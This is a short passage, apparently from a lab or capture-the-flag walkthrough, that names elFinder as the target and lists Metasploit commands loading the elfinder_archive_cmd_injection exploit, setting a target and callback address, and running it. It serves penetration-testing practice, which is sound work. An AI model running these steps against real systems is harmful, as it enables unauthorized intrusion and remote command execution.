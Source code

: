 ![alt text](screenshots/metasploit-framework/20.PNG)

**Answer:** `elFinder`



**Step 2: Metasploit Exploitation**
```bash
msfconsole
search elfinder
use exploit/linux/http/elfinder_archive_cmd_injection
show options
set RHOSTS <target_ip>
set LHOST <your_ip>
exploit
```
![alt text](screenshots/metasploit-framework/21.PNG)